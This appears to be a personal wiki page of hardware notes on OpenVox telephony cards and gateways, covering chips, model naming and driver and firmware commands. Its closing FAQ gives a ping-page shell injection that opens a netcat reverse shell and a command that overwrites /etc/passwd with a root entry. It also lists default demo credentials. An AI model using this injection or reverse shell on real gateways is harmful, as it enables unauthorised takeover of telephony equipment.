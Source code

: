 ```yaml
---
id: openvox
title: OpenVox
---
```


# OpenVox

* [OpenVox](http://www.openvox.cn/cn/)
* https://openvox.cn/pub/
* 210 vs 230
  * 230 has a longer wake width wise in the and not as steep; and the 210 has a steep shorter wake
  * The D230E/DE230E is an upgrade product of the D210E/DE210E.
* [D230E/DE230E on DAHDI User Manual](https://openvoxwiki.atlassian.net/wiki/spaces/UM/pages/917549/D230E+DE230E+on+DAHDI+User+Manual)
* http://www.openvox.cn/pub/
  * 公共文档
  * [D130/D230/D430 Series PRI Card_Datasheet](http://www.openvox.cn/pub/datasheets/English/D130_D230_D430_Series_PRI_Card_Datasheet.pdf)
* `cat /proc/interrupts`
  * 查看是否有独立中断
* 单机多卡需要时钟线
* A 卡都是附加 FXO-400, FSO-400
* D230E
  * [infineon](https://www.infineon.com/)
    * PEF 22554 HT v2.1
    * QuadFALC
    * G0624
    * Framer and LIU (Line Interface Unit) Component (FALC)
    * [Infineon Introduces 4-Line T1/E1/J1 Framer and LIU Component with Smallest Footprint and Lowest Power Consumption](https://www.infineon.com/cms/en/about-infineon/press/market-news/2002/129029.html)
  * 4x MNOVR MS1442 1443Y
  * AITRA cyclone IV
    * [Altera Cyclone® IV](https://www.altera.com.cn/products/fpga/cyclone-series/cyclone-iv/overview.html)
    * EP4CE10E17CBN
    * MALAYSIA
* 驱动下载 - https://openvox.cn/pub/drivers/dahdi-linux-complete/
* 演示网关
  * http://demo.openvox.cn:65327/
  * admin:admin

## 产品命名
* VS - VoxStack
  * 模块化系列网关
  * 支持热插拔
* AG - Analog Gateway - 模拟网关
* DGW - 数字网关
* SWG - Standalone Wireless Gateway - 独立无线网关
* GWM - Gateway Module - 网关模块
* 型号格式
  * D - Digit, B - BRI, X - 混合, G - GSM, A - Analog, V - 编码转换卡, TAP - 录音卡, WCD - G 卡的 WCDMA 扩展模块
  * E - 回声消除
  * 数字 路数 1,2,4,8,24
  * 版本 10/30, 30 是 10 的升级
  * P - PCI, E - PCIE
* GWM801O - 8口 FXO 模块
* GWM420L - 4口 LTE 模块

## 产品
- 常见芯片
  - M83241G13 - CPU Comcerto 1000
  - Altera Cyclone IV EP4CE10F17C8N - FPGA
  - asmedia asm1083 - PCIe to PCI 芯片
- E2M8HJ9DJ68P - VS 模块
  - M83241G13 - Freescale Semiconductor - NXP
    - Telecom Interface ICs C1K-LS102M 450MHz
    - IC C1K 450MHZ VOIP 448BGA
- FXS-420 v1.2 - FS42HJ1KK4UY5
  - S13215-FM
- FXO-400 v1.4 - FXODHJO2XT6L
  - 3019-FT 1718FF L0L4
  - Si3050-FT 1708EM F1Q5
- A810E v1.4 - A814HJ1DBGCZ - PCIe 卡
  - Altera Cyclone IV EP4CE10F17C8N - FPGA
  - asmedia asm1083 - PCIe to PCI 芯片
- VS-AGU-E2M0800 - VoxStack 系列 模拟网关
- VS-GGU-E2M0400 - VS 系列, GSM 网关
  - 硬件版本 Date 2012-11-09 FPGA 11 Hardware 00
  - 主板
    - RTL8316E
    - ATMLH424
- VS-GWM400
  - Quectel M35FAR01A08
  - Altera Cyclone IV EP4CE10F17C8N
  - asmedia asm1083
  - SPANSION S34ML01G200TF100 - Flash
  - CPU 是模块化接口
  - 850/900/1800/1900MHz@GSM
  - 900/2100MHz@UMTS
  - 900/1800MHz@GSM
- VS_USB-1044
  - LTE FDD: B1/B3/B5/B8
  - LTE TDD: B38/B39/B40/B41
  - TD-SCDMA: B34/B39
  - CDMA: BC0
  - WCDMA: 900/2100MHz
  - GSM: 900/1800MHz
  - Avahi - WirelessGateway _burn._tcp - 169.254.8.223
  - 支持 SIM 模块类型
    - EC20 CE-HDLG
    - M26
    - M35 - LTE 4G
    - MCU
    - SIM6320C

## M83241G13
- ARM1136 - 2 Core, 650MHz
- 敏迅科技/Mindspeed Technologies 芯片
- Mindspeed 主要提供 VoIP 领域解决方案 - DSP, LTE, Transcede
- VoIP, Security Engine, PCIe 2, RGMII 2
- SDRAM 16/32 bit DDR2-800/667/533
- L1 缓存 2x(64K D$/64K I$)
- VoIP 能力
  - Field hardened voice features
  - World class acoustic echo cancellation technology
  - Narrow and wideband codecs
  - G.711, G.729, G.722, G.723.1, iLBC, T.38, G.729.1, G.722.2, AMR, AMR Wideband
  - Enhanced echo canceller, CID-I/II, VAD/CNG, AGC
  - 3-Way conferencing
- TDM/PCM interface for glue-less VoIP support
- 2009 年

## A810

* Communication controller: OpenVox Communication Co. Ltd. Device 0810 (rev 15)
* OpenVOX电话模拟语音卡 A810E Asterisk 卡8路语音卡FXO/FXS模块化 A810E
* AE810E/AE810P [手册](https://openvox.cn/pub/misc/AE810E_AE810P_Elastix%202.0.4_User_Manual_English.pdf)

```bash
modprobe –r opvxa24xx
```

## 固件
* https://www.openvox.cn/pub/firmwares

```bash
# 升级流程
auto_update -i 1
auto_update -b u-boot.bin
auto_update -u -f AnalogGateway.img
```

## FAQ
### 获取 root 权限
1. ssh 用户名修改为 super 即可
2. ping 页面进行 shell 注入
  * `google.com;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/ash -i 2>&1|nc yourip 1234 >/tmp/f`

```bash
cat /etc/passwd
echo 'root:$6$p5UxF/96kKYh3eVj$laEQueyeV4tDJV5ASR3kj7r5X/BtXQ/PJM4dCrnAo1M8HtSlDWupG7TQQ.r1wTncK.Jze4NNa9UN37wvT0L/L/:0:0:root:/tmp:/bin/bash' > /etc/passwd
```

### torybox 工具包

```bash
wget https://landley.net/toybox/downloads/binaries/latest/toybox-$(uanem -m)
```

### clone system

```bash
ssh -p 12345 root@192.168.99.1 'cd /etc; tar cf - ./' | tar xvf - -C etc
```

### fix local perm

```bash
find . -type d | xargs chmod 0744
find . -type f | xargs chmod 0644
```
